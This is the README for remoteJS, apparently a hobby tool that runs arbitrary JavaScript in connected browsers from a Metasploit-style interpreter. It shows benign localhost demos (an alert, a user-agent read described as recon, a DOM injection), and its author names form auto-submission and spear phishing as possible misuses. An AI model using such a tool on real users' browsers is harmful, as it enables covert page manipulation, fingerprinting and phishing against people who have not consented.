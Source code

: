 # remoteJS

## Spawn a remote shell in a client's browser.
This tool has the potential to be used for malicious use, such as inserting form controls, using autocomplete to fill them, and then submitting them, all without any user interaction. 

Furthermore spear phising attacks can be carried out by sending specific content to different people dynamically, including alerts and popups.

Please use responsibly, as I am not liable for any damage (including criminal charges) which may arise from use of this software.

## Requirements
To use remoteJS, you will need Python 3.
Additionally, you will need to install some dependencies:

```pip3 install -r requirements.txt```

## Usage
To startup the server and interpreter, enter the following:

```python3 remoteJS.py```

You should then see the following interpreter:
```
~/Projects/remoteJS >>> python3 wwwserver.py

        ____                       __           _______
       / __ \___  ____ ___  ____  / /____      / / ___/
      / /_/ / _ \/ __ `__ \/ __ \/ __/ _ \__  / /\__ \ 
     / _, _/  __/ / / / / / /_/ / /_/  __/ /_/ /___/ / 
    /_/ |_|\___/_/ /_/ /_/\____/\__/\___/\____//____/  
                                            By fputs    
    
 * Serving Flask app "remoteJS" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * WARNING: I am not liable for any damage (including criminal charges) which may arise from use of this software.
 * For more information see the LICENSE file included with this software.
 * Ready!

(None)>
```

### Available Commands
You can view all available commands by running the `help` command:

```
(None)>help

Command       | Description                          | Syntax
--------------------------------------------------------------------------------
set           | Sets an environment variable.        | set <varname> <value>
show          | Shows an environment variable.       | show (varname|all)
show sessions | Shows all active sessions.           | show sessions
exit          | Shuts down the server.               | exit|quit
exec          | Run a script in the client's browser | exec <script>
```

### Viewing Connected Hosts
In order to execute a script in a client's browser, you must first select the client from the current sessions. To view sessions, run the `show sessions` command:

```
(None)>show sessions

Hostname             | TTL (sec)                 
--------------------------------------------------------------------------------
localhost            | 2                                                           
```

In this example, we can see that we have an active session open to `localhost`.

### Selecting a Host
Now we must select our host, so we set variables using the `set` command. Naming conventions follow Metasploit's names, so we must set the `RHOST` variable to define our target:

```
(None)>set RHOST localhost
Assigned RHOST -> localhost
(localhost)>
```

You can now see, that the target host appears within the cursor, to indicate that we will execute our scripts within that host's browser.

### Launching a Script
Currently remoteJS only supports manual typing of scripts via the commandline, however I will be adding modules to allow different scripts to be automatically loaded.

Let's send our target a friendly alert that will say 'Hello localhost!'. To do this, we will use the `exec` command, this allows us to run any Javascript we like:

```
(localhost)>exec alert('Hello localhost!')
localhost:5000: Status=OK
```

This method will also provide a status and response.

## More Examples

### Getting Information
We can also use this tool to carry out some recon on our target, for instance, we can get information about their CPU, browser and OS, even if they prevent the browser from sharing this information in GET/POST requests. This is done by executing a simple script:

```
(localhost)>exec navigator.userAgent
localhost:5000: Status=OK, Response=Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0f
```

Magic! We now know that the user is on a 64-bit Intel Linux box, running Firefox version 77.

### Modifying DOM
If you know anything about manipulating DOM with JS, then this will be no surprise, but we can dynamically modify the webpage on the fly. In this example, we insert a new subheading:

```
(localhost)>exec {document.getElementsByTagName("body")[0].innerHTML += "<h2>Where did that come from?</h2>"; true;}
localhost:5000: Status=OK, Response=true
```

This adds a subheading containing the text `Where did that come from?`.

You may notice I've enclosed the statement in curly braces, with a `true` statement inserted at the end. This supresses the output of the command, as remoteJS uses the javascript `eval` command, and in this instance, it would return the entire document DOM, and that just doesn't look nice.

